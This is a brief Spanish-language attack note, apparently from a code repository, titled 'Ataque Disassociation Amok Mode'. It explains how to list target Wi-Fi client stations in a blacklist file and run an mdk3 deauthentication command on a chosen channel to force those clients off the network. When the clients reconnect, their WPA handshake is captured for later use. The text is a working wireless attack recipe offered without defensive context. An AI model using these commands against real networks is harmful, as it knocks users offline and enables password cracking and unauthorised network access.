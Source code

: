 # Ataque Disassociation Amok Mode

# Ponemos las station de los clientes que queremos en la siguiente lista negra

```bash
nano blacklist
```

# Con este ataque de lista negra expulsaremos a todos los usuarios que necesitemos y podran volver al momento que lo frenemos con CTRL C

```bash
mdk3 d -w blacklist -c [numerodecanal]
```

# Se autentican otra vez y te da su handshake.
